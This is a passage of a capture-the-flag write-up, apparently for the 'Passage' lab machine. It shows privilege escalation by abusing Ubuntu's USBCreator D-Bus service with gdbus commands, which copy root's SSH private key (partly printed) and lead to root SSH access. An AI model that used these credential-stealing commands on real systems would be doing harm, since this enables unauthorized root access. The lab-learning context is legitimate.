 
I did a quick google search and found a few links mentioning priv esc. [This article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) actually looks like a detailed writeup of this vulnerability from this box. The example screenshot has the same user "nadav".

![](12.png)

In nadav's home directory I created a file called a.txt and echoed a string to it.

```sh
nadav@passage:~$ echo "this is a test" > a.txt

```

Then using the method in the image, I copied the file to the system root.

```sh
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/a.txt /a.txt true
()
```

Confirmation the file was copied.

```sh
nadav@passage:~$ cat /a.txt
this is a test
```


I took a chance and tried to copy root's id_rsa to nadav's home directory. This method worked.

```sh
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /home/nadav/test true
()
```

```sh
nadav@passage:~$ cat test
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAth1mFSVw6Erdhv7qc+Z5KWQMPtwTsT9630uzpq5fBx/KKzqZ
B7G3ej77MN35+ULlwMcpoumayWK4yZ/AiJBm6FEVBGSwjSMpOGcNXTL1TClGWbdE
+WNBT+30n0XJzi/JPhpoWhXM4OqYLCysX+/b0psF0jYLWy0MjqCjCl/muQtD6f2e
jc2JY1KMMIppoq5DwB/jJxq1+eooLMWVAo9MDNDmxDiw+uWRUe8nj9qFK2LRKfG6
U6wnyQ10ANXIdRIY0bzzhQYTMyH7o5/sjddrRGMDZFmOq6wHYN5sUU+sZDYD18Yg
ezdTw/BBiDMEPzZuCUlW57U+eX3uY+/Iffl+AwIDAQABAoIBACFJkF4vIMsk3AcP
.....
```

I created the key file, set permissions and was then able to SSH in as root.
